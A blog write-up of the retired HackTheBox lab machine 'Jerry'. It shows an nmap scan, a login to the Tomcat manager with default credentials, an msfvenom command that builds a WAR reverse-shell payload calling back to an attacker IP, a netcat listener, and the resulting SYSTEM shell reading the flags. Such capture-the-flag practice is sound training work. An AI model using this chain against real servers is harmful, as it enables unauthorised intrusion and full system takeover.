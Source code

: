 ```yaml
---
title: "HackTheBox: Jerry"
layout: archive
date:   2021-01-03
tags: HackTheBox
tags_label: true
---
```

This was from when I was practicing with some retired machines from HackTheBox. It is one of the easiest machines on the hackthebox, and extremely straight-forward. There is no privilege escalation step.

### Scanning:

Finding running services:
```
crazyeights@es-base:~$ sudo nmap -sS 10.10.10.95
[sudo] password for crazyeights: 
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-03 11:51 EST
Nmap scan report for 10.10.10.95
Host is up (0.033s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE
8080/tcp open  http-proxy
```

### Web:

*   Tomcat 7.0.88 is running 
*   Click 'Manager App' to login as manager 
![](/assets/images/23/s1.png)
*   After incorrectly guessing the login, we see this page:
![](/assets/images/23/s2.png)
*   Trying the credentials on the page (default credentials), we get:
![](/assets/images/23/s3.png)
*   It allows for the manager to upload WARs, so we can upload a WAR containing a reverse shell    
*   Using msfvenom to create a WAR
*   Msfvenom Command Format:

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f war > example.war
```

*   Creating the WAR:

```
crazyeights@es-base:~$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.11 LPORT=1234 -f war > bad.war
```

*   Start the listener:

```
crazyeights@es-base:~$ nc -lvp 1234
listening on [any] 1234 ...

```

*   Upload the file: 
![](/assets/images/23/s4.png)
*   We can now see the WAR in the list of deployed applications: 
![](/assets/images/23/s5.png)
*   Click on it in the table to visit it's location, and connect to the listener 
![](/assets/images/23/s6.png)

### Root:

*   Since we have system privileges all we need to do is get the flags:
*   Go to the directory `C:\Users\Administrator\Desktop\flags`

```
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  06:09 AM    <DIR>          .
06/19/2018  06:09 AM    <DIR>          ..
06/19/2018  06:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,601,014,784 bytes free

C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004d_i_dont_want_to_get_in_trouble

root.txt
04a8b_i_dont_want_to_get_in_trouble
```

FIN.